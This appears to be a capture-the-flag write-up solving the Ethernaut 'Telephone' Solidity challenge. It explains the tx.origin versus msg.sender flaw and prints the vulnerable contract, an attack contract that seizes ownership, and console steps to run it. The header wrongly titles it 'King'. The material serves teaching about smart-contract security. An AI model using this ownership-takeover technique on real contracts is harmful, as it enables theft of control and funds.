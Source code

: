 # King

Welcome to the next solution in my Ethernaut series!
Today we will discuss the 4th problem called Telephone.

This challenge is nothing fancy. Just a contract we need to take control over. There is just one condition we need to satisfy and the contract lets us take the ownership.

## The goal
- Claim ownership of the contract.

## Code review
  
Let's take a look of the contract code:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

### State Variables
We have just one variables declared for the contract.
- Owner is the variable which holds an address for the owner of the contract. 

### Constructor
The constructor is straight forward. It initialized the owner with the address of whoever deploys the contract.

### Functions
This contract has just one function:
- The changeOwner function takes an address as argument. It then updates the owner to that address. But it has a require statement which first check and makes sure that transaction origin ```tx.origin``` is not equal to the sender of the message ```msg.sender```

## Vulnerability
- The vulnerability in this contract is very similar to Cross-Site Request Forgery. Let us first understand the difference between transaction origin and message sender is:
- Message sender is the immediate address from which the communication to the contract has happened. Message sender can be an Externally Owned Account(EOA) and also another contract.
- Transaction origin refers to the address from where the transaction originated. This can only be an (EOA. Lets understand transaction chains:
	- Suppose there are three contracts A, B and C. There is also an EOA James. 
	- James triggers a contract A. A then executes a function in B by sending a transaction to it.
	- B then execute a function in C by sending a transaction. Now in the contract C, msg.sender is address of contract B as B is the immediate sender of communication. But the transaction origin is the address of James as he is the originator of the chain of transactions. As you can see the transaction origin cannot be a contract address.
- Confusion in tx.origin and msg.sender can lead to phishing-style attacks.
- In this problem, while calling the function changeOwner() the message sender and transaction origin should not be the same.

## How to avoid the vulnerability

The way by which we can avoid the vulenrabilities is by not using transaction origin to validate the users as attacker can force the victim to execute a malicious contract. 

## Solution

Below is the attack contract.
```solidity
pragma solidity ^0.8.0;

import "./Telephone.sol";

contract Attack {
    Telephone telephoneContract;

    constructor(Telephone _telephoneContract) {
        telephoneContract = Telephone(_telephoneContract);
    }

    function attack() public {
        telephoneContract.changeOwner(msg.sender);
    }
}

```
### Code Review and analysis

The attack contract is pretty straightforward. 

- Constructor: The constructor takes the address of the target contract to interact with it by using the address to create an object of the telephoneContract contract.
- The only other function is attack(). This function will call the function changeOwner() with the argument of msg.sender from the attack contract, which will be the player's address as in attack contract the msg.sender is the player. As the changeOwner() function is called by our Attack contract, the msg.sender in the target contract will reflect the address of attack contract. Although, the tx.origin will be player's address.

### Attack execution
- Get the address of target contract while deploying Attack contract as our constructor needs the target contract address to interact with it. Use the command ```await contract.address```
- Before trying to attack the target contract, use the command ```await contract.owner()``` which is a public getter function in the target contract to know the current owner of the contract.
- Also try the command ```await contract.changeOnwer()``` to change the contract. As here the player is the message.sender and tx.origin, the require statement in the function will fail.
- Now go ahead and deploy the Attack contract using the target contract's address as the input to the constructor. 
- This will create an instance of attack contract which has the telephoneContract object created pointing to the instance of target contract.
- The next and final step is to call the function attack() on the attack contract. This will call the target contract's changeOwner function.
- check the owner value again by executing command ```await contract.owner()``` and verify that the player address is now the owner variable's value.
- And Voila! we have successfully solved the challenge!